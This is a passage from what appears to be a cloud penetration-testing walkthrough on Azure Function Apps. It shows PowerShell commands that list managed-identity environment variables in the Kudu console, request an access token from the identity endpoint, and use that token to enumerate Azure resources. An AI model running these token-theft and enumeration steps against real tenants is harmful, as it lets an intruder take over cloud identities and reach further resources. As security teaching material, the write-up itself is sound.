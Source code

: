 Let's click on `Environment`. We find `IDENTITY_` on the environment page reveals the environment variables below. It shows that a managed identity has been assigned to the web app, which can be considered as a special type of user account that is assigned to the web app, and can be assigned permissions to access other resources in an Azure environment. This is useful when a web app might need to access storage or a database. 

![](exploit-sql-injection-in-azure-function-app-4.png)

We can enumerate environmental variables from `Debug console -> Powershell`. For example, `dir env: | where {$_.Name -like "*IDENTITY_*"}`

![](exploit-sql-injection-in-azure-function-app-5.png)

Let's use the information to request an JWT (JSON Web Token) access token for the managed identity. This token will also allow us to authenticate to Azure with external applications.

> This needs to be run from the Kudu instance as the instance metadata service (IMDS) is running on this, and it has details about the managed identity, and can request an access token for it from Entra ID. Running this locally on your own terminal won't work.
{: .prompt-info }
```
$resource = "https://management.azure.com/"

$endpoint = $env:IDENTITY_ENDPOINT
$header = $env:IDENTITY_HEADER
$apiVersion = "2019-08-01"

$headers = @{ 'X-Identity-Header' = $header }

$url = "$($endpoint)?api-version=$apiVersion&resource=$resource"

$response = Invoke-RestMethod -Method Get -Uri $url -Headers $headers
$response.access_token
```

![](exploit-sql-injection-in-azure-function-app-6.png)

We can now use the token to perform further enumeration 

> We could use [AzureHound](https://github.com/SpecterOps/AzureHound), but there is an [issue](https://github.com/SpecterOps/AzureHound/issues/122) with using Azurehound >= 2.3.1 when authenticating using a JWT. The solution is to download and use Azurehound 2.2.1, which is not affected by this issue.
{: .prompt-info }

We can send direct requests Azure Resource Manager API
```
$authHeader = @{ Authorization = "Bearer $access_token" }

$resourceUrl = "https://management.azure.com/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resources?api-version=2021-04-01"
$resourceResponse = Invoke-RestMethod -Uri $resourceUrl -Method Get -Headers $authHeader
$resources = $resourceResponse.value
```
Or via Powershell Azuse (`oid` from access token)
```
└─PS> Connect-AzAccount -AccessToken $access_token -AccountId 7d59eb72-783f-40e1-a012-f211e72b71ea

Subscription name           Tenant
-----------------           ------
Microsoft Azure Sponsorship 2590ccef-687d-493b-ae8d-441cbab63a72
```
